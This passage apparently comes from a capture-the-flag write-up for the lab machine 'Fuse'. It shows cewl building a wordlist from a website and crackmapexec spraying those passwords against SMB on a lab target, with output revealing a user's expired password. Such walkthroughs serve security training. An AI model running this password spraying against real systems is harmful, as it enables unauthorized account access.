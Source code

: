 ## Custom Wordlist & SMB Brute Forcing

Use `cewl` to create a custom wordlist based on the website.

```bash
$ cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm -m 5 -w cewl-words.txt --with-numbers
```

Spray the generated passwords with the usernames gathered from the website against the target. It appears `bnielson`'s password was once `Fabricorp01`, but it has since expired.

```bash
$ crackmapexec smb 10.129.2.5 -d fabricorp.local -u users.txt -p cewl-words.txt
...[SNIP]...
SMB         10.129.2.5      445    FUSE             [-] fabricorp.local\bnielson:Fabricorp01 STATUS_PASSWORD_MUST_CHANGE
...[SNIP]...
```
